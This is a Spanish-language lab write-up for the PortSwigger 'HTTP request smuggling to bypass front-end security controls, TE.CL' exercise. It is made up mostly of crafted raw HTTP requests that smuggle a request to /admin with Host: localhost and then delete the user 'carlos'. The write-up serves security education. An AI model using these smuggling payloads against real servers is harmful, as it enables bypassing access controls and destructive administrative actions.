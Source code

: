 Este es Portswigger Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

Primero veo las respuestas del servidor
```
POST / HTTP/1.1
Host: 0aa800bd04ace6a481ec8fd4006800fd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X
```
Dando como resultado:
Server Error: Communication timed out: sent = true, receivedEmptyResponse = true, timedOut = true
lo cual es una fuerte indicacion de que el front-end está pririzando el Transfer-Encoding.  Entonces tenemos que usar chunked para el fronted. Para eso tenemos que asegurarnos que el front-end mande toda la request al back-end. Envíamos la confirmación para evitar falsos positivos (es importante el CRLF vacío indicando que no viene más nada):
```
POST / HTTP/1.1
Host: 0aa800bd04ace6a481ec8fd4006800fd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

14
GET /asda HTTP/1.1

0

 
```
Llamamos a una página que no existe, sin embargo la solicitud no nos dice nada, nos da un error 400.
Por qué?
La solicitud se envía completa, y el backend ve esto:
```
POST / HTTP/1.1
Host: 0aa800bd04ace6a481ec8fd4006800fd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

14
```
Porque esta priorizando el content length, 14+CRLF (~14 \r\n~), y la solicitud que queda pendiente es esta
```
GET /asda HTTP/1.1

0

```
Lo cual no es válido, porque el cuerpo requiere un Content-length, o Transfer-Encoding, así el servidor sabe cuando empiezay etermina el body de la request. 
Así que enviamos la siguinete request
```
POST / HTTP/1.1
Host: 0aa800bd04ace6a481ec8fd4006800fd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

27
GET /asda HTTP/1.1
Content-Length: 6

0


```
La cual da un 200 OK, pero la segunda request tira un 404 not found
Así que ahora buscamos por la url de admin, incluyendo el Host: localhost, qe esta manera aceptara la solicitud:
```
POST / HTTP/1.1
Host: 0aa800bd04ace6a481ec8fd4006800fd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

39
GET /admin HTTP/1.1
Content-Length: 6
Host: localhost

0


```
con 6 bytes en vez de cinco, para que de esta manera se concatenen las solicitudes. Tal vez te preguntes, Porque no la resolvimos como cuando era CL.TE:
```
POST / HTTP/1.1
Host: 0aa800bd04ace6a481ec8fd4006800fd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

39
GET /admin HTTP/1.1
Content-Length: 3
Host: localhost

x: 
```
Esto causarí un time out, porque si el front-end usa el transfer encoding no ve el final a esto, necesita de un 0 que diga que la solicitud llego a su final.
De esta manera podremos borrar al usuario Carlos:
```
POST / HTTP/1.1
Host: 0aa800bd04ace6a481ec8fd4006800fd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

50
GET /admin/delete?username=carlos HTTP/1.1
Content-Length: 6
Host: localhost

0


```